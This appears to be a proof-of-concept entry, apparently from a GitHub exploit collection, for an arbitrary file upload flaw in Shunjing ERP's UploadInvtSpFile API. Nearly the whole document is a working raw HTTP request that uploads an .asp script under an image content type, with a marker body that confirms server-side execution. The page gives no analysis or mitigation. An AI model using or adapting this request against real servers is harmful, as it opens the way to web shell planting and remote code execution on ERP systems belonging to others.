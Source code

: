 # shunjing_UploadInvtSpFile_fileupload

```
POST /api/cgInvtSp/UploadInvtSpFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=-----------------1111
Content-Length: 178

-------------------1111
Content-Disposition: form-data; name="filedata"; filename="2142142142.asp"
Content-Type: image/png

<% response.write("1111")%>
-------------------1111--
```

from： https://github.com/wy876/POC/blob/main/%E9%A1%BA%E6%99%AFERP/%E9%A1%BA%E6%99%AFERP%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9FUploadInvtSpFile%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
